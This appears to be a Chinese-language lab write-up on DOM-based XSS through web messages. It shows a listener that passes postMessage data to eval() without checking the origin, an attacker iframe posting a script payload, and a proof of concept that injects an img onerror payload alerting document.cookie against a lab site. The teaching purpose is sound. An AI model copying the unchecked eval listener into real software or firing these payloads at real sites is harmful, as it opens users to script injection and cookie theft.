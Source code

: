 如何使用Web消息作为来源进行攻击

考虑以下代码：

```javascript
<script>
window.addEventListener('message', function(e){
    eval(e.data);
    });
</script>
```

这很容易受到攻击，因为攻击者可以通过构造以下代码来注入JavaScript有效负载iframe：

```javascript
<iframe src="//vulnerable-website"
 onload="this.contentWindow.postMessage('alert(1)','*')">
```

由于事件侦听器无法验证消息的来源，并且该postMessage()方法指定targetOrigin "*"，因此事件侦听器接受有效负载并将其传递到接收器（在本例中为eval()函数）中。



实验：





![](images/D361339E4C9A4F7684FBE90E21F2AD47clipboard.png)

发现网站首页存在一个web消息监听器，并且会将监听到的内容发送到页面。这很可能造成xss漏洞



构造poc:

```javascript
<iframe src="https://your-lab-id.web-security-academy.net/" 
onload="this.contentWindow.postMessage('<img src=1 onerror=alert(document.cookie)>','*')">
```

发送的消息里含有xss代码，造成xss

